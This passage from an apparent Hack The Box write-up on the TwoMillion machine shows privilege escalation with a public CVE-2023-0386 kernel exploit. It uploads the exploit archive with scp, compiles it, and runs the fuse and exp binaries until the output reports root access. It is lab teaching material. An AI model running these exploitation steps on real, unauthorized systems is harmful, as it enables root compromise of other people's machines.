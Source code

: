 Then upload it using `scp`:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ scp cve.zip admin@2million.htb:/tmp
admin@2million.htb's password: 
cve.zip                                                               100%  460KB 270.6KB/s   00:01    
```

On the box, navigate to `/tmp` and unzip the contents of `cve.zip`:

```bash
admin@2million:/tmp$ unzip cve.zip                                                                      
Archive:  cve.zip
<SNIP>  
```

As per the instructions on the GitHub page, enter the CVE-2023-0386 directory and compile the code:

```bash
admin@2million:/tmp$ cd CVE-2023-0386/
admin@2million:/tmp/CVE-2023-0386$ ls
exp.c  fuse.c  getshell.c  Makefile  ovlcap  README.md  test

admin@2million:/tmp/CVE-2023-0386$ make all
```

	Note: The compilation throws a few warnings but these can be safely ignored.

Finally, let's run the exploit in two steps. We run the first command in the background:

```
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc &
[1] 2071
admin@2million:/tmp/CVE-2023-0386$ [+] len of gc: 0x3ee0

```

Then we execute the exp binary in the foreground:

```
./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Sep 17 15:22 .
drwxrwxr-x 6 root   root     4096 Sep 17 15:22 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```
